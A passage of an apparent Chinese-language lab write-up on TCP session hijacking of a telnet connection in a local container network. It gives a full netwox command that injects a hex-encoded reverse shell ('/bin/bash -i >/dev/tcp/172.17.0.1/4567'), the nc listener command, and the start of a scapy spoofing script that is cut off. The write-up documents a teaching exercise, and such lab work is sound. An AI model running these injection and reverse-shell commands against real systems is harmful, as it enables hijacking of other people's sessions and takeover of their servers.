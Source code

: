 （3）观察和解释：

用户机运行telnet连接服务机并登录，攻击机运行python脚本，然后用户机输入一个回车，用于触发脚本。

> 注意：**用于触发脚本的符号是回车**，空格时服务器没有正常执行ls指令，具体原因不明。后来做反向shell的时候，我使用空格触发，却成功了。

在wireshark中抓包可以看到我们伪造的报文，如下图所示。

![img](https://img-blog.csdnimg.cn/img_convert/195f8be0c60992e75014660ee3a71783.png)

并且，可以进一步看到服务器运行ls时显示的结果，如下图所示。

![img](https://img-blog.csdnimg.cn/img_convert/98b47502c7a0bc35c50470fd0f105bef.png)

### 反向shell

#### netwox：

（1）Wireshark截包截图：

![img](https://img-blog.csdnimg.cn/img_convert/93f84586734fb75c367ecd54418d2cb2.png)

（2）攻击命令：

先在攻击机上运行nc -lvp 4567，对4567端口进行监听，等待服务器主动反向shell。

然后用户机和服务器建立telnet连接后，攻击机运行如下指令：

```bash
sudo netwox 40 -l 172.17.0.2 -m 172.17.0.4 -p 23 -o 59418 --tcp-seqnum 656808919 --tcp-acknum 85195549 --tcp-data "2f62696e2f62617368202d69203e2f6465762f7463702f3137322e31372e302e312f3435363720323e263120303c26310d00" --tcp-ack
```

这条攻击指令是利用TCP会话劫持运行`/bin/bash -i >/dev/tcp/172.17.0.1/4567 2>&1 0<&1`并回车。

运行的这条指令是把当前的bash的标准输出、错误输出全部重定向到172.17.0.1:4567中去，并把172.17.0.1:4567的输入重定向成为当前bash的标准输入。

（3）观察和解释：

下图上方是攻击机成功获得服务器shell的截图，下方是服务器响应"/bin/bash -i >/dev/tcp/172.17.0.1/4567 2>&1 0<&1"语句的wireshark抓包结果。

![img](https://img-blog.csdnimg.cn/img_convert/2808ad07257b8624f1e7696c884d4ea3.png)

可以看到，攻击机成功地能够显示标准输出、错误输出，并且还能将自己的输入运行在服务机运行，也就是获得了服务器的bash。

#### scapy：

（1）Wireshark截包截图：

攻击的是下面这张图上的TCP报文，由于采取自动攻击的方式，所以seq和ack的具体数值对程序编写来说，并不重要。

![img](https://img-blog.csdnimg.cn/img_convert/5a5635155a6a2b6b34e810e399df7068.png)

（2）攻击脚本：

```python
#!/usr/bin/python3
from scapy.all import *

SRC = "172.17.0.2"
DST = "172.17.0.4"
PORT = 23

def spoof(pkt):
  old_ip = pkt[IP]
  old_tcp = pkt[TCP]
  if(old_tcp.flags!="A"):
    return

  #############################################
```